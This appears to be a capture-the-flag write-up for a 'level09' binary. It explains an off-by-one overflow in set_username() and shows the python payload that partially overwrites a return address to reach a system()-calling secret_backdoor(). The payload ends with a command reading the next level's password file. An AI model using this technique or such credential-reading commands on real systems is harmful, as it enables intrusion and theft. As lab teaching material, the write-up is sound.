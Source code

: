 # Level 09

We have an executable asking for a name and a message who will be sent we don't know where.
```sh
$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: 42
>: Welcome, 42
>: Msg @Unix-Dude
>>: reef > free
>: Msg sent!
```

By reading the source code, we can see a very useful function: secret_backdoor() which calls the system function by passing it the standart input as an argument. 
```c
int secret_backdoor()
{
  char s[128];

  fgets(s, 128, stdin);
  return system(s);
}
```
We're going to have to find a way of calling this function after the code has been executed.

Looking a little deeper into the source code, we see that the message and its length are located in a structure.

If we want to create an overflow, the length of the message must exceed the length of the array (140 char). Just in case, there's a way to overflow memory in the set_username() function. 
The loop at the end of the function will store the first 40 characters retrieved by fgets() in the "name" part of the structure, which is an array of 40 char. But what a pity, the condition is badly done! It says "i <= 40" instead of "i < 40", so the function will store one extra byte in the structure over the length.

We can then provoke our first segfault, and use this to inject the call to our backdoor:
```sh
$ (python -c 'print("A" * 40 + "\xca")') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

But first, we have to find the secret_backdoor() address:
```sh
(gdb) r <<< $(python -c 'print("A" * 40 + "\xca")')
Starting program: /home/users/level09/level09 <<< $(python -c 'print("A" * 40 + "\xca" * 146)')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555550000 in ?? ()
(gdb) disass secret_backdoor 
Dump of assembler code for function secret_backdoor:
	0x000055555555488c <+0>:	push   %rbp
	...
```
So we see that the address on which the program crashes is 0x0000555555550000, and that the address of our function is 0x000055555555488c. There's only a 2-byte difference between the two, so we can replace just that!

```sh
$ (python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
```
